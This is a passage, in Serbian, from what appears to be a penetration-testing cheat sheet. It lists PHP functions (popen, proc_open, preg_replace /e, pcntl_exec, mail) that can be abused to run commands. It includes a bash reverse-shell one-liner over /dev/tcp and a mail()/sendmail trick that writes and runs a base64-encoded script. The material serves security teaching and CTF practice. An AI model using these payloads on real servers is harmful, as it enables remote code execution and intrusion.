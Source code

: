 ```bash
echo fread(popen("/bin/ls /", "r"), 4096);
```

**proc\_open** - Slično kao popen(), ali sa većim stepenom kontrole

```bash
proc_close(proc_open("uname -a",array(),$something));
```

**preg\_replace**

**preg\_replace** je funkcija u PHP-u koja se koristi za zamenu uzoraka u nizu ili stringu. Ova funkcija koristi regularne izraze za pronalaženje i zamenu određenih delova teksta.

Evo sintakse funkcije:

```php
preg_replace($pattern, $replacement, $subject);
```

* `$pattern` predstavlja regularni izraz koji se koristi za pronalaženje dela teksta koji želimo da zamenimo.
* `$replacement` predstavlja string ili niz koji se koristi za zamenu pronađenog dela teksta.
* `$subject` predstavlja niz ili string u kojem želimo da izvršimo zamenu.

Ova funkcija je veoma korisna prilikom manipulacije tekstom, kao i prilikom obrade korisničkog unosa. Međutim, treba biti oprezan prilikom korišćenja ove funkcije, jer nepravilno korišćenje može dovesti do ranjivosti kao što su XSS napadi ili SQL injection.

Uvek treba proveriti i validirati korisnički unos pre nego što se koristi **preg\_replace** funkcija kako bi se sprečile potencijalne ranjivosti.

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

**pcntl\_exec** - Izvršava program (podrazumevano u modernoj i ne tako modernoj PHP verziji, morate učitati modul `pcntl.so` da biste koristili ovu funkciju)

```bash
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
```

**mail / mb\_send\_mail** - Ova funkcija se koristi za slanje mejlova, ali se može zloupotrebiti kako bi se ubacili proizvoljni komandi unutar parametra `$options`. Ovo je zato što **php `mail` funkcija** obično poziva `sendmail` binarni fajl unutar sistema i omogućava vam da **dodate dodatne opcije**. Međutim, nećete moći videti izlaz izvršene komande, pa se preporučuje da kreirate skriptu koja upisuje izlaz u fajl, izvršite je koristeći mail, i ispišete izlaz:

```bash
file_put_contents('/www/readflag.sh', base64_decode('IyEvYmluL3NoCi9yZWFkZmxhZyA+IC90bXAvZmxhZy50eHQKCg==')); chmod('/www/readflag.sh', 0777);  mail('', '', '', '', '-H \"exec /www/readflag.sh\"'); echo file_get_contents('/tmp/flag.txt');
```

**dl** - Ova funkcija se može koristiti za dinamičko učitavanje PHP ekstenzije. Ova funkcija neće uvek biti prisutna, pa trebate proveriti da li je dostupna pre nego što pokušate da je iskoristite. Pročitajte [ovu stranicu da biste naučili kako iskoristiti ovu funkciju](disable\_functions-bypass-dl-function.md).
